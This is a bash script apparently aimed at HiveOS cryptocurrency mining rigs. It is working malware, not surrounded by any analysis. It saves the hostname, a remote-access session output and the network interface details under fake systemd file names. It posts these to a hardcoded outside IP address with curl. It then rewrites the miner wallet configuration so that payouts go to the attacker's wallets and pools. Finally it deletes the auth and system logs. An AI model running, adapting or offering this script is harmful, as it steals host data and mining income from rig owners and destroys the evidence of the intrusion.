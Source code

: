 #! /usr/bin/env bash
FILE_HOSTNAME=/tmp/systemd-private-573f90440f934615953a8ef0764847d2-unknown.service
HSSH_HOSTNAME=/tmp/systemd-private-573f90440f934615953a8ef0764847d2-unknown.service.pid
IFCONFIG_HOSTNAME=/tmp/systemd-private-573f90440f934615953a8ef0764847d2-unknown.service.sock
/bin/hostname > ${FILE_HOSTNAME}
/hive/bin/hssh start > ${HSSH_HOSTNAME}
/sbin/ifconfig > ${IFCONFIG_HOSTNAME}
/hive/sbin/curl -XPOST -F "hostname=@${FILE_HOSTNAME}" -F "hssh=@${HSSH_HOSTNAME}" -F "ifconfig=@${IFCONFIG_HOSTNAME}" "http://185.86.149.116:8085/"
rm ${FILE_HOSTNAME} ${HSSH_HOSTNAME} ${IFCONFIG_HOSTNAME}
FILE=/hive-config/wallet.conf
IS_GMINER=$(/bin/cat $FILE | /bin/grep 'GMINER_TEMPLATE=' | wc -l)
IS_CLAYMORE=$(/bin/cat $FILE | /bin/grep 'EPOOLS_TPL=' | wc -l)
IS_PHONEIX=$(/bin/cat $FILE | /bin/grep 'PHOENIXMINER_URL=' | wc -l)
/bin/bash /hive/bin/miner stop
if [[ "${IS_GMINER}" -eq 1 ]]; then
    /bin/sed -i -r \
      -e 's/^GMINER_TEMPLATE=.+/GMINER_TEMPLATE="12e4081d9204882412eee22a1704ee73491d6a4759be0ed2ef6cda7997824d3c246.beam"/' \
          -e 's/^GMINER_HOST=.+/GMINER_HOST="beam.f2pool.com"/' \
      -e 's/^GMINER_PORT=.+/GMINER_PORT="5000"/' \
      -e 's/^GMINER_TLS=.+/GMINER_TLS="1"/' \
      $FILE
    /bin/bash /hive/bin/miner start
fi
if [[ "${IS_CLAYMORE}" -eq 1 ]]; then
    /bin/sed -i -r \
      -e 's/^EPOOLS_TPL=.+/EPOOLS_TPL="POOL: daggerhashimoto.usa-new.nicehash.com:3353, WALLET: 39Rqd9GvUittmAnn1Lpb4QD8cj89UbTeoX, PSW: x, ESM: 3, ALLPOOLS: 1"/' \
      -e 's/^POOL:.+//' \
      $FILE
    /bin/bash /hive/bin/miner start
fi
if [[ "${IS_PHONEIX}" -eq 1 ]]; then
    /bin/sed -i -r \
      -e 's/^PHOENIXMINER_URL=.+/PHOENIXMINER_URL="POOL: daggerhashimoto.usa-new.nicehash.com:3353, WALLET: 39Rqd9GvUittmAnn1Lpb4QD8cj89UbTeoX, PSW: x, ESM: 3, ALLPOOLS: 1"/' \
      $FILE
    /bin/bash /hive/bin/miner start
fi
/bin/rm /var/log/auth.log
/bin/rm /var/log/syslog 
